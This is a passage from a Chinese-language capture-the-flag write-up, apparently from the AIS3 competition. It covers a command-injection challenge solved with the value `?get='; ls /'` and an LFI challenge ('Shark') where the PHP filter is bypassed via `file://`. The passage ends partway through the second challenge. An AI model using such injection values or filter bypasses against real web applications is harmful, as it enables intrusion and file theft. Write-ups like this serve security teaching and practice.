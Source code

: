 ```js
        'error' => 'empty file path'
    ]);
}
```

洩漏完原碼後發現有command injection的洞，所以就構造了`?get='; ls /'`先對root做ls，得到以下內容。
```
5qu1rr3l_15_4_k1nd_0f_b16_r47.txt
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

那個`5qu1rr3l_15_4_k1nd_0f_b16_r47.txt`看起來像Flag，所以就送`?get=/5qu1rr3l_15_4_k1nd_0f_b16_r47.txt`讀看看，就拿到Flag了。

Flag: `AIS3{5qu1rr3l_15_4_k1nd_0f_b16_r47}`

### 🦈Shark
進到網頁後看到有個Hint可以點，Hint說Flag在某個內部伺服器，順便發現Hint是用`?path=`讀出來的，感覺有LFI的漏洞可以用...\
所以就直接輸入`?path=index.php`看看能不能看到原始碼。

成功洩漏原碼後看到這段，過濾了一些符號，但還是可以用`file://`進行繞過來任意讀檔。
```php
<?php

    if ($path = @$_GET['path']) {
        if (preg_match('/^(\.|\/)/', $path)) {
            // disallow /path/like/this and ../this
            die('<pre>[forbidden]</pre>');
        }
        $content = @file_get_contents($path, FALSE, NULL, 0, 1000);
        die('<pre>' . ($content ? htmlentities($content) : '[empty]') . '</pre>');
    }

?>
```
